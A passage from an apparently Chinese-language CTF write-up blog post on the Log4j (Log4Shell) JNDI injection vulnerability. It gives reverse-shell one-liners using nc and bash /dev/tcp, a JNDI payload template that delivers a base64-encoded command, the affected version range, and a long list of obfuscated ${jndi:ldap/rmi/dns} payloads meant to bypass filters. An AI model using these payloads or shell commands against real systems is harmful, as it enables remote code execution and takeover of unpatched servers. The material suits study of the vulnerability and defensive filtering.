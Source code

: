  <p><img src="https://img-blog.csdnimg.cn/b5df419f4de342d880d643a16afda976.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAZ29kZGVtb24=,size_20,color_FFFFFF,t_70,g_se,x_16" alt="在这里插入图片描述"><br> <img src="https://img-blog.csdnimg.cn/444bc67397494e49b4bdd68a7ecf7595.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAZ29kZGVtb24=,size_20,color_FFFFFF,t_70,g_se,x_16" alt="在这里插入图片描述"><br> 思路2<br> 进行反弹shell获取</p> 
 <pre><code class="prism language-bash">常见反弹shell的思路
①nc ip 12345 -e /bin/sh

②bash -i <span class="token operator">&gt;</span><span class="token operator">&amp;</span> /dev/tcp/启动nc服务器的ip/9999 0<span class="token operator">&gt;</span><span class="token operator">&amp;</span>1
<span class="token comment">#然后先base64编码然后对编码后的特殊字符进行2层url转码</span>



这台要用第一个命令,题目限定了
payload<span class="token operator">=</span><span class="token variable">${jndi:ldap:1/服务器ip:1389/basic/Command/Base64/二层转码之后的字符}</span>

</code></pre> 
 <p>反弹shell后执行即可</p> 
 <p><img src="https://img-blog.csdnimg.cn/e08749697c9b4afa8bf3e14c080d64a4.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAZ29kZGVtb24=,size_20,color_FFFFFF,t_70,g_se,x_16" alt="在这里插入图片描述"><br> <img src="https://img-blog.csdnimg.cn/ae8c7c82b468476a94e481ff0eba637a.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAZ29kZGVtb24=,size_20,color_FFFFFF,t_70,g_se,x_16" alt="在这里插入图片描述"><br> <img src="https://img-blog.csdnimg.cn/435deaf0004c4ae5b7c83372964c06fe.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAZ29kZGVtb24=,size_20,color_FFFFFF,t_70,g_se,x_16" alt="在这里插入图片描述"></p> 
 <h1><a id="_103"></a><mark>知识点分析</mark></h1> 
 <p>受影响版本<br> Apache log4j 2.0-beta9 ≤ 2.14.1<br> 组件<br> org.apache.logging.log4j，且版本号小于2.15.0-rc2</p> 
 <p>ldap基础知识以及服务原因</p> 
 <h2><a id="payload_111"></a><mark>payload总结</mark></h2> 
 <p>参考知识点：来源团队的雪晴师傅的<br> https://www.yuque.com/yq1ng/java/pbica2#xrVeI<br> 基础payload<br> ${jndi:ldap://t00ls.com/poc<br> 绕过的一些payload</p> 
 <pre><code class="prism language-bash"><span class="token variable">${jndi:ldap://domain.com/j}</span>
<span class="token variable">${jndi:ldap:/domain.com/a}</span>
<span class="token variable">${jndi:dns:/domain.com}</span>
<span class="token variable">${jndi:dns://domain.com/j}</span>
<span class="token variable">${${::-j}</span><span class="token variable">${::-n}</span><span class="token variable">${::-d}</span><span class="token variable">${::-i}</span><span class="token keyword">:</span><span class="token variable">${::-r}</span><span class="token variable">${::-m}</span><span class="token variable">${::-i}</span>://domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${${::-j}</span>ndi:rmi://domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:rmi://domainldap.com/j}</span>
<span class="token variable">${${lower:jndi}</span><span class="token keyword">:</span><span class="token variable">${lower:rmi}</span>://domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${${lower:${lower:jndi}</span><span class="token punctuation">}</span>:<span class="token variable">${lower:rmi}</span>://domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${${lower:j}</span><span class="token variable">${lower:n}</span><span class="token variable">${lower:d}</span>i:<span class="token variable">${lower:rmi}</span>://domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${${lower:j}</span><span class="token variable">${upper:n}</span><span class="token variable">${lower:d}</span><span class="token variable">${upper:i}</span><span class="token keyword">:</span><span class="token variable">${lower:r}</span>m<span class="token variable">${lower:i}</span><span class="token punctuation">}</span>://domain.com/j<span class="token punctuation">}</span>
<span class="token variable">${jndi:${lower:l}</span><span class="token variable">${lower:d}</span>a<span class="token variable">${lower:p}</span>://domain.com<span class="token punctuation">}</span>
<span class="token variable">${${env:NaN:-j}</span>ndi<span class="token variable">${env:NaN:-:}</span><span class="token variable">${env:NaN:-l}</span>dap<span class="token variable">${env:NaN:-:}</span>//domain.com/a<span class="token punctuation">}</span>
jn<span class="token variable">${env::-}</span>di:
jn<span class="token variable">${date:}</span>di$<span class="token punctuation">{</span>date:<span class="token string">':'</span><span class="token punctuation">}</span>
j<span class="token variable">${k8s:k5:-ND}</span>i<span class="token variable">${sd:k5:-:}</span>
j<span class="token variable">${main:\k5:-Nd}</span>i<span class="token variable">${spring:k5:-:}</span>
j<span class="token variable">${sys:k5:-nD}</span><span class="token variable">${lower:i${web:k5:-:}</span><span class="token punctuation">}</span>
j<span class="token variable">${::-nD}</span>i<span class="token variable">${::-:}</span>
j<span class="token variable">${EnV:K5:-nD}</span>i:
j<span class="token variable">${loWer:Nd}</span>i<span class="token variable">${uPper::}</span>